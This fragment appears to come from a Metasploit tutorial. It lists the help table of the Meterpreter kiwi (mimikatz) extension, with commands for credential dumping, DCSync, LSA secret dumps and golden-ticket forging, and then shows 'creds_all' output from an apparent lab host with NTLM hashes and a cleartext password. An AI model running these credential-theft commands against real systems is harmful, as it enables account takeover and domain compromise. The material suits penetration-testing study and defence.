 ```
    Command                   Description
    -------                   -----------
    creds_all                 Retrieve all credentials (parsed)
    creds_kerberos            Retrieve Kerberos creds (parsed)
    creds_livessp             Retrieve Live SSP creds
    creds_msv                 Retrieve LM/NTLM creds (parsed)
    creds_ssp                 Retrieve SSP creds
    creds_tspkg               Retrieve TsPkg creds (parsed)
    creds_wdigest             Retrieve WDigest creds (parsed)
    dcsync                    Retrieve user account information via DCSync (unparsed)
    dcsync_ntlm               Retrieve user account NTLM hash, SID and RID via DCSync
    golden_ticket_create      Create a golden kerberos ticket
    kerberos_ticket_list      List all kerberos tickets (unparsed)
    kerberos_ticket_purge     Purge any in-use kerberos tickets
    kerberos_ticket_use       Use a kerberos ticket
    kiwi_cmd                  Execute an arbitrary mimikatz command (unparsed)
    lsa_dump_sam              Dump LSA SAM (unparsed)
    lsa_dump_secrets          Dump LSA secrets (unparsed)
    password_change           Change the password/hash of a user
    wifi_list                 List wifi profiles/creds for the current user
    wifi_list_shared          List shared wifi profiles/creds (requires SYSTEM)

For more info on a specific command, use <command> -h or help <command>
```



```
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username  Domain   LM                                NTLM                              SHA1
--------  ------   --                                ----                              ----
Dark      Dark-PC  e52cac67419a9a22ecb08369099ed302  7c4fe5eada682714a036e39378362bab  0d082c4b4f2aeafb67fd0ea568a997e9d3ebc0eb

wdigest credentials
===================

Username  Domain     Password
--------  ------     --------
(null)    (null)     (null)
DARK-PC$  WORKGROUP  (null)
Dark      Dark-PC    Password01!

tspkg credentials
=================

Username  Domain   Password
--------  ------   --------
Dark      Dark-PC  Password01!

kerberos credentials
====================

Username  Domain     Password
--------  ------     --------
(null)    (null)     (null)
Dark      Dark-PC    Password01!
dark-pc$  WORKGROUP  (null)

```